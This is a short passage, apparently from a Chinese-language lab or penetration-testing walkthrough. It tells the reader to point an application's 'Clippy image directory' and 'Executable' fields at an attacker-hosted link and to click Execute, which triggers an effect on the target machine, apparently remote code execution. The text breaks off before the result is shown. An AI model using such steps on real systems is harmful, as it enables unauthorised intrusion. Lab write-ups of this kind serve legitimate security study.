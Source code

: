 先把默认的 `Clippy image directory` 地址改成攻击机的地址，再把这个链接 `http://192.168.101.15:9999/deCFhCIwXNHYT` 填入 `Executable` 这一栏里面。

![](/img/2021-02-02_15-52.png)

然后点击 `Execute`

这时，靶机就会发生一件有趣的事情
